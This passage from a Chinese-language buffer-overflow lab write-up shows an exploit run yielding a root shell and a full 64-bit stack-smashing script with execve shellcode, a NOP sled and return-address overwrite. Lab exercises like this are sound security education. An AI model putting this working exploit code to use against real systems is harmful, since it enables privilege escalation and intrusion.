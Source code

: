 ```python
with open('badfile', 'wb') as f:
  f.write(content)

```

结果获取到root权限的shell。

```python
❯ python3 exploit-L2.py
❯ ./stack-L2
Input size: 514
# whoami                                                                       
root
#  
```

### Task5：针对64位程序的攻击

64位程序与32位程序类似，但是由于地址前4位均为0，如果直接输入会导致strcpy函数遇`\x00`截断，导致shellcode无法进栈，因此可以考虑通过将shellcode放在ret前。python脚本构造如下：

`python`

```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 40            # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0x7fffffffd5b0+220      # Change this number 
offset = 208+8              # Change this number 

L = 8     # Use 4 for 32-bit address and 8 for 64-bit address
# content[0:offset+L] = (ret).to_bytes(L,byteorder='little')*29
content[offset:offset+L] = (ret).to_bytes(L,byteorder='little')
print((ret).to_bytes(L,byteorder='little'))
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```
